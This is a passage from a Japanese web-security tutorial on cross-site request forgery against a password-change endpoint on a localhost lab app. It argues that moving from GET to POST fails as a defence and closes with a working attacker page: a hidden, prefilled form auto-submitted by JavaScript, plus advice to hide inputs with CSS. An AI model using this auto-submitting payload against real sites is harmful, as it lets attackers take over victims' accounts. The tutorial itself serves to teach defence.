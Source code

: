 ```ts
router.get("/3-post-password-change-dangerous", (_req, res) => {
  res.send(`
    <form id="form" action="http://localhost:3000/3-post-password-change-dangerous" method="post">
    <input name="newPassword" type="text" value=""></input>
    <button type="submit">submit</buttion>
    </form>
    `);
});
```

## 防御の検証

POST メソッドを使ったことで、前回と同じような攻撃はできなくなっています。その理由を以下に説明します。

前回は、悪意のあるリンクをユーザーに送っていました。そして、ユーザーがそのリンクを踏むと同時にパスワード変更のリクエストが送信され、ユーザーのパスワードが攻撃者の指定したパスワードに変更されてしまいました。
POST メソッドの場合を考えてみると、以下の二つの点から上記の攻撃ができなくなっていることがわかります。

- リンクをクリックしたときには GET リクエストが送られる。POST リクエストを送信するためには、フォームを使ってユーザーが明示的に submit ボタンを押さなければならないこと
- URL クエリパラメータで攻撃者が新しいパスワードを指定することができないこと

そのため、たとえば攻撃者が以下のようなリンクをユーザーに送ったとしても、前節のように攻撃が成功することはありません。
http://localhost:3000/3-post-password-change-dangero?newPassword=evil

## 攻撃の検証

しかし、この post メソッドを使った防御はあっさりと破られます。
順番に見ていきましょう。

### URL クエリパラメータで攻撃者が新しいパスワードを指定することができないこと

まず、「URL クエリパラメータで攻撃者が新しいパスワードを指定することができないこと」について攻撃側の対応策を考えます。

ようは、フォームの初期値を指定できればいいのです。そして、なんとフォームの input タグは初期値を指定できます。
そのため、自分でウェブサイトを作って、フォームの初期値を指定したページを用意します。
そして、submit したときの送信先を http://localhost:3000/3-post-password-change-dangerous にすれば、攻撃者が指定したパスワードで更新させることが可能です。
ついでに、新しいパスワードの input 要素を CSS でめっちゃ小さくしたり、透明にしてユーザーから見えなくし、submit ボタンをリンク遷移のボタンなどに見せかければ完璧でしょう。

### POST リクエストを送信するためには、フォームを使ってユーザーが明示的に submit ボタンを押さなければならないこと

次に、「POST リクエストを送信するためには、ユーザーが明示的に submit ボタンを押さなければならないこと」について対応策を考えます。
JavaScript を使うことで、自動でフォームを送信することが可能です。
フォームの初期値設定と組み合わせることで、ユーザーがリンクをクリックしてページが読み込まれた瞬間に、攻撃者が指定したパスワードに更新する POST リクエストを自動で送ることができるのです。

### 具体的な攻撃

攻撃者は、以下のようなページを用意します。

```ts
app.get("/3-post-password-change-dangerous", (_req, res) => {
  res.send(`
  <form id="form" action="${ORIGIN_BASE_URL}/3-post-password-change-dangerous" method="post" style="display: none;">
  <input name="newPassword" type=text value="aaaaaaa"></input>
  <button type="submit">submit</buttion>
  </form>
  <script>
    // form 要素を JavaScript で操作できるように取得する
    const form = document.getElementById("form")
    // form を操作して、submit する
    form.submit()
  </script>
`);
});
```